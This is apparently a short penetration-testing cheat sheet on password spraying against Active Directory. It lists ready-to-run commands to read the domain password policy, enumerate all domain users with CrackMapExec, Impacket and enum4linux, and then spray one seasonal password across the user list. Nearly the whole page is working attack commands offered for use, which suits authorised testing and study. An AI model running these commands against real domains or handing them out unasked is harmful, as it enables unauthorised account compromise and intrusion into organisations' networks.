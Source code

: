 ```yaml
---
description: Methodology for performing password spraying attacks against active directory
---
```


# Spraying Active Directory

### Obtain Password Policy

```bash
# Get Password Policy with CrackMapExec
crackmapexec smb $dc -u $username -p $password --pass-pol

# Get Password Policy with Net Accounts
net accounts
```

### Get List of Users

```bash
# Get List of Users with CrackMapExec
crackmapexec smb $dc -u $username -p $password --users

# Get List of Users with Impacket
GetADUsers.py $domain/$username:$password -all -dc-ip $dc

# Get List of Users with Enum4linux
enum4linux $dc -u $username -p $password -U
```

### Spraying

```bash
# Spray with CrackMapExec
crackmapexec smb $ip -u $username_list -p Winter2022! --continue-on-success
```
